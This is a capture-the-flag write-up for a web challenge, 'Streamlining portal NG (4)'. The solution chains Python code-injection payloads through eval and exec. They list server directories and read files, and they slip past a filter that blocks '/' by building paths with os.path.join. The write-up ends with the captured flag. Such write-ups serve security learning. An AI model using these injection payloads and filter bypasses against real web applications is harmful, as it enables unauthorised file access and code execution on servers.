




# Streamlining portal NG (4)

Hi, packet inspector,

the AI has detected your previous breach and has improved the security measures. New streamlining portal is on [http://user-info-ng.mysterious-delivery.tcc](http://user-info-ng.mysterious-delivery.tcc).

Your task is to break into the improved web and find again interesting information on the server.

May the Packet be with you!

## Hints

- Use VPN to get access to the web.

## Solution

The solution is almost the same as it was with [Streamlining portal (3)](04-corporate-websites/01a-streamlining-portal/README.md)

Let's check source code with `" + str(open("/app/app.py").read()) + "`

Oh wait, it is not working.

After a while I figured out that if the string contains `/`, then the server returns 404.

Using `" + str(eval(str(exec("import os;x=os")))) + str(x.listdir("app")) + "` we can see that `/app` directory is same as in [Streamlining portal (3)](04-corporate-websites/01a-streamlining-portal/README.md).

Let's use some of my python knowledge, instead of `app/FLAG` I will use `os.path.join("app", "FLAG")`.

`" + str(eval(str(exec("import os;x=os")))) + str(x.listdir(x.path.join("app", "FLAG"))) + "`

Now just open the `flag.txt` file.

`" + str(eval(str(exec("import os;x=os")))) + str(open(x.path.join("app", "FLAG", "flag.txt")).read()) + "`

`FLAG{hvIM-3aty-R39h-dOZ4}`
